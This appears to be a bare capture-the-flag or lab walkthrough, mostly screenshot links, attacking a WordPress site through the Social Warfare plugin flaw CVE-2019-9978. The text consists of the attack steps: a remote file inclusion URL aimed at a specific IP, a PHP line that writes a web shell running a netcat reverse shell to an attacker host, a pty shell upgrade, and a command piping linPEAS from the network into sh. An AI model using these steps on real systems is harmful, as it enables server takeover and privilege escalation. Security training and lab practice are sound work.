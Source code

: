![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a3192bd-a9f7-4d49-8f55-cd7d413a3030)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/35afcfd3-c02c-428e-9a51-6170cbdc4c9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcf4b7cd-4083-4f46-acd5-abf2caea684b)

https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d72555fb-cdea-465f-b7ef-88f3b3a0e9c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f375f35-83c9-4ccf-8a0a-10fa53f67418)

http://62.173.140.174:18500/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP:8000/test1.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3459d5a4-270b-45bd-b2dd-d2a41ec791f2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/50aef2fe-4e4f-4a44-bfec-e13b2ad3bce2)

<pre> fwrite(fopen("evil.php","w") ,"<?php system('nc -e /bin/sh ip 1234'); ?>");</pre>

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aaa34946-da07-4486-a3da-e44dacb237de)

python3 -c 'import pty; pty.spawn("/bin/bash")'

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fbec7dca-fa7a-4af9-8552-6ffd26e251fd)

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/477c0f35-9c63-43e8-aa78-b7f8706a03a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/335aba48-2e63-4e31-91da-5d0e2f11e95e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c08cd01d-b873-4a3d-b91e-bcf9d46d57ec)


